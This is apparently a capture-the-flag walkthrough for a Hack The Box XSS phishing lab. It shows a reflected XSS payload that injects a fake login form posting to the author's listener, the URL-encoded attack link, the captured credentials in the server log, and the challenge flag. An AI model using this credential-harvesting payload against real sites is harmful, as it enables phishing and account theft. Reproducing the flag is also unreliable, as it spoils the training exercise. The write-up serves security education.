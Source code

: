 ## Challenge

Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag. 

## Solution

In the page, on `Image URL` I just put some random string like `test`, and copy the URL which is: `http://10.129.38.94/phishing/index.php?url=Test`.

Let's use this html to prepare the login form:

```html
<div>
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

After minifying:

```js
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.195:8000><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

I started a listening server:

```sh
python3 -m http.server
```

On the webpage's path at `/phishing/send.php` there is a form to send the URL, which plays the role of the victim, that will click on every link, and I've sent this link:

```sh
http://10.129.38.94/phishing/index.php?url=document.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.15.195:8000%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);
```

And I got the response on my listening server:

```sh
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.38.94 - - [19/Feb/2025 13:12:12] "GET /?username=admin&password=c&submit=Login HTTP/1.1" 200 -
```

Now login at `/phishing/login.php` with these credentials, and you will get the flag `HTB{r3f13c73d_cr3d5_84ck_2_m3}`.





